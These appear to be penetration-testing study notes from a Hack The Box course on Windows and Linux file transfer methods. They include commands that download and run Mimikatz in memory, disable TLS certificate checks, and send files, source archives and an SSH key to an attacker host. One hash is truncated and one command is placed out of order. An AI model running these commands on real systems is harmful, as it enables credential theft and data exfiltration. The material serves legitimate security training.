

#CPTS #HTB #cybersecurity 

Understanding different ways to perform file transfers and how networks operate can help us accomplish our goals during an assessment. We must be aware of host controls that may prevent our actions, like application whitelisting or AV/EDR blocking specific applications or activities. File transfers are also affected by network devices such as Firewalls, IDS, or IPS which can monitor or block particular ports or uncommon operations.
# Windows File Transfer Methods
## PowerShell Web Downloads

Most companies allow `HTTP` and `HTTPS` outbound traffic through the firewall to allow employee productivity. Leveraging these transportation methods for file transfer operations is very convenient. Still, defenders can use Web filtering solutions to prevent access to specific website categories, block the download of file types (like .exe), or only allow access to a list of whitelisted domains in more restricted networks.

PowerShell offers many file transfer options. In any version of PowerShell, the [System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) class can be used to download a file over `HTTP`, `HTTPS` or `FTP`. The following [table](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-6.0) describes WebClient methods for downloading data from a resource:

|**Method**|**Description**|
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)|Downloads a String from a resource without blocking the calling thread.|

Let's explore some examples of those methods for downloading files using PowerShell.

#### PowerShell DownloadFile Method

We can specify the class name `Net.WebClient` and the method `DownloadFile` with the parameters corresponding to the URL of the target file to download and the output file name.

```powershell
# Example
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```
#### PowerShell DownloadString - Fileless Method

As we previously discussed, fileless attacks work by using some operating system functions to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2) cmdlet or the alias `IEX`.

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
# With PIPE
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
# After that
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## SMB Downloads

The Server Message Block protocol (SMB protocol) that runs on port TCP/445 is common in enterprise networks where Windows services are running. It enables applications and users to transfer files to and from remote servers.

We can use SMB to download files from our Pwnbox easily. We need to create an SMB server in our Pwnbox with [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) from Impacket and then use `copy`, `move`, PowerShell `Copy-Item`, or any other tool that allows connection to SMB.

#### Create the SMB Server

```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

To download a file from the SMB server to the current working directory, we can use the following command:
#### Copy a File from the SMB Server

```powershell
copy \\192.168.220.133\share\nc.exe
```

>[!Warning] 
>New versions of Windows block unauthenticated guest access. Configure username and password.
#### Create the SMB Server with a Username and Password

```shell
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
#### Mount the SMB Server with Username and Password

```powershell
net use n: \\192.168.220.133\share /user:test test
# AND THEN
copy n:\nc.exe
```
## FTP Downloads

Another way to transfer files is using FTP (File Transfer Protocol), which use port TCP/21 and TCP/20. We can use the FTP client or PowerShell Net.WebClient to download files from an FTP server.

We can configure an FTP Server in our attack host using Python3 `pyftpdlib` module. It can be installed with the following command:
#### Installing the FTP Server Python3 Module - pyftpdlib

```python
sudo pip3 install pyftpdlib
```
#### Setting up a Python3 FTP Server

```shell
sudo python3 -m pyftpdlib --port 21
```

After the FTP server is set up, we can perform file transfers using the pre-installed FTP client from Windows or PowerShell `Net.WebClient`.

```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.
#### Create a Command File for the FTP Client and Download the Target File

```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt 
C:\htb> echo USER anonymous >> ftpcommand.txt 
C:\htb> echo binary >> ftpcommand.txt 
C:\htb> echo GET file.txt >> ftpcommand.txt 
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt

ftp> open 192.168.49.128 
Log in with USER and PASS first. 
ftp> USER anonymous 

ftp> GET file.txt 
ftp> bye 

C:\htb>more file.txt 
This is a test file
```
## PowerShell Base64 Encode & Decode

We saw how to decode a base64 string using Powershell. Now, let's do the reverse operation and encode a file so we can decode it on our attack host.
#### Encode File Using PowerShell

```powershell
C:\htb> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte)) IyBDb3B5cmlnaHQgKGMpIDE5OTMtMjAwOSBNaWNyb3NvZnQgQ29ycC4NCiMNCiMgVGhpcyBpcyBhIHNhbXBsZSBIT1NUUyBmaWxlIHVzZWQgYnkgTWljcm9zb2Z0IFRDUC9JUCBmb3IgV2luZG93cy4NCiMNCiMgVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBtYXBwaW5ncyBvZiBJUCBhZGRyZXNzZXMgdG8gaG9zdCBuYW1lcy4gRWFjaA0KIyBlbnRyeSBzaG91bGQgYmUga2VwdCBvbiBhbiBpbmRpdmlkdWFsIGxpbmUuIFRoZSBJUCBhZGRyZXNzIHNob3VsZA0KIyBiZSBwbGFjZWQgaW4gdGhlIGZpcnN0IGNvbHVtbiBmb2xsb3dlZCBieSB0aGUgY29ycmVzcG9uZGluZyBob3N0IG5hbWUuDQojIFRoZSBJUCBhZGRyZXNzIGFuZCB0aGUgaG9zdCBuYW1lIHNob3VsZCBiZSBzZXBhcmF0ZWQgYnkgYXQgbGVhc3Qgb25lDQojIHNwYWNlLg0KIw0KIyBBZGRpdGlvbmFsbHksIGNvbW1lbnRzIChzdWNoIGFzIHRoZXNlKSBtYXkgYmUgaW5zZXJ0ZWQgb24gaW5kaXZpZHVhbA0KIyBsaW5lcyBvciBmb2xsb3dpbmcgdGhlIG1hY2hpbmUgbmFtZSBkZW5vdGVkIGJ5IGEgJyMnIHN5bWJvbC4NCiMNCiMgRm9yIGV4YW1wbGU6DQojDQojICAgICAgMTAyLjU0Ljk0Ljk3ICAgICByaGluby5hY21lLmNvbSAgICAgICAgICAjIHNvdXJjZSBzZXJ2ZXINCiMgICAgICAgMzguMjUuNjMuMTAgICAgIHguYWNtZS5jb20gICAgICAgICAgICAgICMgeCBjbGllbnQgaG9zdA0KDQojIGxvY2FsaG9zdCBuYW1lIHJlc29sdXRpb24gaXMgaGFuZGxlZCB3aXRoaW4gRE5TIGl0c2VsZi4NCiMJMTI3LjAuMC4xICAgICAgIGxvY2FsaG9zdA0KIwk6OjEgICAgICAgICAgICAgbG9jYWxob3N0DQo

C:\htb> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash 
---- 
3688374325B992DEF12793500307566
```

We copy this content and paste it into our attack host, use the `base64` command to decode it, and use the `md5sum` application to confirm the transfer happened correctly.

```shell
echo IyBDb3B5cmlnaHQgKGMpIDE5OTMtMjAwOSBNaWNyb3NvZnQgQ29ycC4NCiMNCiMgVGhpcyBpcyBhIHNhbXBsZSBIT1NUUyBmaWxlIHVzZWQgYnkgTWljcm9zb2Z0IFRDUC9JUCBmb3IgV2luZG93cy4NCiMNCiMgVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBtYXBwaW5ncyBvZiBJUCBhZGRyZXNzZXMgdG8gaG9zdCBuYW1lcy4gRWFjaA0KIyBlbnRyeSBzaG91bGQgYmUga2VwdCBvbiBhbiBpbmRpdmlkdWFsIGxpbmUuIFRoZSBJUCBhZGRyZXNzIHNob3VsZA0KIyBiZSBwbGFjZWQgaW4gdGhlIGZpcnN0IGNvbHVtbiBmb2xsb3dlZCBieSB0aGUgY29ycmVzcG9uZGluZyBob3N0IG5hbWUuDQojIFRoZSBJUCBhZGRyZXNzIGFuZCB0aGUgaG9zdCBuYW1lIHNob3VsZCBiZSBzZXBhcmF0ZWQgYnkgYXQgbGVhc3Qgb25lDQojIHNwYWNlLg0KIw0KIyBBZGRpdGlvbmFsbHksIGNvbW1lbnRzIChzdWNoIGFzIHRoZXNlKSBtYXkgYmUgaW5zZXJ0ZWQgb24gaW5kaXZpZHVhbA0KIyBsaW5lcyBvciBmb2xsb3dpbmcgdGhlIG1hY2hpbmUgbmFtZSBkZW5vdGVkIGJ5IGEgJyMnIHN5bWJvbC4NCiMNCiMgRm9yIGV4YW1wbGU6DQojDQojICAgICAgMTAyLjU0Ljk0Ljk3ICAgICByaGluby5hY21lLmNvbSAgICAgICAgICAjIHNvdXJjZSBzZXJ2ZXINCiMgICAgICAgMzguMjUuNjMuMTAgICAgIHguYWNtZS5jb20gICAgICAgICAgICAgICMgeCBjbGllbnQgaG9zdA0KDQojIGxvY2FsaG9zdCBuYW1lIHJlc29sdXRpb24gaXMgaGFuZGxlZCB3aXRoaW4gRE5TIGl0c2VsZi4NCiMJMTI3LjAuMC4xICAgICAgIGxvY2FsaG9zdA0KIwk6OjEgICAgICAgICAgICAgbG9jYWxob3N0DQo= | base64 -d > hosts

md5sum hosts
3688374325b992def12793500307566d hosts
```

## PowerShell Web Uploads

PowerShell doesn't have a built-in function for upload operations, but we can use `Invoke-WebRequest` or `Invoke-RestMethod` to build our upload function. We'll also need a web server that accepts uploads, which is not a default option in most common webserver utilities.

For our web server, we can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the Python [HTTP.server module](https://docs.python.org/3/library/http.server.html), which includes a file upload page. Let's install it and start the webserver.

#### Installing a Configured WebServer with Upload

```shell
pip3 install uploadserver

python3 -m uploadserver
```

Now we can use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses `Invoke-RestMethod` to perform the upload operations. The script accepts two parameters `-File`, which we use to specify the file path, and `-Uri`, the server URL where we'll upload our file. Let's attempt to upload the host file from our Windows host.
#### PowerShell Script to Upload a File to Python Upload Server

```powershell
# Descarga la función para subir archivos a un FileUpload Server de Python
C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
### PowerShell Base64 Web Upload

Another way to use PowerShell and base64 encoded files for upload operations is by using `Invoke-WebRequest` or `Invoke-RestMethod` together with Netcat. We use Netcat to listen in on a port we specify and send the file as a `POST` request. Finally, we copy the output and use the base64 decode function to convert the base64 string into a file.

```powershell
C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))

C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

We catch the base64 data with Netcat and use the base64 application with the decode option to convert the string to the file.

```shell
nc -lvnp 8000

listening on [any] 8000 ... 
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.129] 50923 
POST / HTTP/1.1 
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) 
WindowsPowerShell/5.1.19041.1682 
Content-Type: application/x-www-form-urlencoded 
Host: 192.168.49.128:8000 
Content-Length: 1820 
Connection: Keep-Alive 

IyBDb3B5cmlnaHQgKGMpIDE5OTMtMjAwOSBNaWNyb3NvZnQgQ29ycC4NCiMNCiMgVGhpcyBpcyBhIHNhbXBsZSBIT1NUUyBmaWxlIHVzZWQgYnkgTWljcm9zb2Z0IFRDUC9JUCBmb3IgV2luZG93cy4NCiMNCiMgVGhpcyBmaWxlIGNvbnRhaW5zIHRoZSBtYXBwaW5ncyBvZiBJUCBhZGRyZXNzZXMgdG8gaG9zdCBuYW1lcy4gRWFjaA0KIyBlbnRyeSBzaG91bGQgYmUga2VwdCBvbiBhbiBpbmRpdmlkdWFsIGxpbmUuIFRoZSBJUCBhZGRyZXNzIHNob3VsZA0KIyBiZSBwbGFjZWQgaW4gdGhlIGZpcnN0IGNvbHVtbiBmb2xsb3dlZCBieSB0aGUgY29ycmVzcG9uZGluZyBob3N0IG5hbWUuDQojIFRoZSBJUCBhZGRyZXNzIGFuZCB0aGUgaG9zdCBuYW1lIHNob3VsZCBiZSBzZXBhcmF0ZWQgYnkgYXQgbGVhc3Qgb25lDQo 
...SNIP...
```

```shell
# Decode
echo <base64> | base64 -d -w 0 > hosts
```
## SMB Uploads

We previously discussed that companies usually allow outbound traffic using `HTTP` (TCP/80) and `HTTPS` (TCP/443) protocols. Commonly enterprises don't allow the SMB protocol (TCP/445) out of their internal network because this can open them up to potential attacks.

An alternative is to run SMB over HTTP with `WebDav`. `WebDAV` [(RFC 4918)](https://datatracker.ietf.org/doc/html/rfc4918) is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other. The `WebDAV` protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring. `WebDAV` can also use HTTPS.

When you use `SMB`, it will first attempt to connect using the SMB protocol, and if there's no SMB share available, it will try to connect using HTTP. In the following Wireshark capture, we attempt to connect to the file share `testing3`, and because it didn't find anything with `SMB`, it uses `HTTP`.



#### Configuring WebDav Server

To set up our WebDav server, we need to install two Python modules, `wsgidav` and `cheroot` (you can read more about this implementation here: [wsgidav github](https://github.com/mar10/wsgidav)). After installing them, we run the `wsgidav` application in the target directory.
#### Installing WebDav Python modules

```shell
sudo pip3 install wsgidav cheroot
```
#### Using the WebDav Python module

```shell
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
#### Connecting to the Webdav Share

Now we can attempt to connect to the share using the `DavWWWRoot` directory.

```powershell
C:\htb> dir \\192.168.49.128\DavWWWRoot
```

>[!note] Note
> `DavWWWRoot` is a special keyword recognized by the Windows Shell. 
> 
> **No such folder exists on your WebDAV server**. The `DavWWWRoot` keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server. You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder
#### Uploading Files using SMB

```powershell
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\ 
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
## FTP Uploads

Uploading files using FTP is very similar to downloading files. We can use PowerShell or the FTP client to complete the operation. Before we start our FTP Server using the Python module `pyftpdlib`, we need to specify the option `--write` to allow clients to upload files to our attack host.

```shell
# Important WRITE
sudo python3 -m pyftpdlib --port 21 --write
```

Now let's use the PowerShell upload function to upload a file to our FTP Server.
#### PowerShell Upload File

```shell
C:\htb> (New-Object Net.WebClient).UploadFile('ftp://10.10.14.119/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
#### Create a Command File for the FTP Client to Upload a File

```powershell
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt 
C:\htb> echo binary >> ftpcommand.txt 
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt 
C:\htb> echo bye >> ftpcommand.txt 
C:\htb> ftp -v -n -s:ftpcommand.txt 

ftp> open 192.168.49.128 
Log in with USER and PASS first. 

ftp> USER anonymous 
ftp> PUT c:\windows\system32\drivers\etc\hosts 
ftp> bye
```
## Windows File Transfer LAB

### Download the file flag.txt from the web root using wget from the Pwnbox. Submit the contents of the file as your answer.

```shell
wget 10.129.174.196/flag.txt
```
### Upload the attached file named upload_win.zip to the target using the method of your choice. Once uploaded, unzip the archive, and run "hasher upload_win.txt" from the command line. Submit the generated hash as your answer.

```shell
sudo bin/wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

```shell
[IO.File]::WriteAllBytes("archivo.zip", [Convert]::FromBase64String("UEsDBAoAAAAAAFmEKVFHXocmIAAAACAAAAAOAAAAdXBsb2FkX3dpbi50eHRlNGZlZWM0NjZkNWRlNzAxMDg5YjVjYzFiZjZkNTkyYVBLAQI/AAoAAAAAAFmEKVFHXocmIAAAACAAAAAOACQAAAAAAAAAIAAAAAAAAAB1cGxvYWRfd2luLnR4dAoAIAAAAAAAAQAYAHjm8KnohtYBzETj5fqG1gEXkIab6IbWAVBLBQYAAAAAAQABAGAAAABMAAAAAAA="))
```
### Also we can create a python server

```shell
sudo python -m http.server 80
```
 
 and download the file

# Linux File Transfer Methods

Linux is a versatile operating system, which commonly has many different tools we can use to perform file transfers. Understanding file transfer methods in Linux can help attackers and defenders improve their skills to attack networks and prevent sophisticated attacks.
## Base64 Encoding / Decoding

Depending on the file size we want to transfer, we can use a method that does not require network communication. If we have access to a terminal, we can encode a file to a base64 string, copy its content into the terminal and perform the reverse operation. Let's see how we can do this with Bash.
#### Pwnbox - Check File MD5 hash

```shell
md5sum id_rsa
cat id_rsa |base64 -w 0;echo
```

```shell
# Decode de file
echo -n '<base64>' | base64 -d > id_rsa
```
## Web Downloads with Wget and cURL

Two of the most common utilities in Linux distributions to interact with web applications are `wget` and `curl`. These tools are installed on many Linux distributions.

To download a file using `wget`, we need to specify the URL and the option `-O' to set the output filename.

```shell
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```


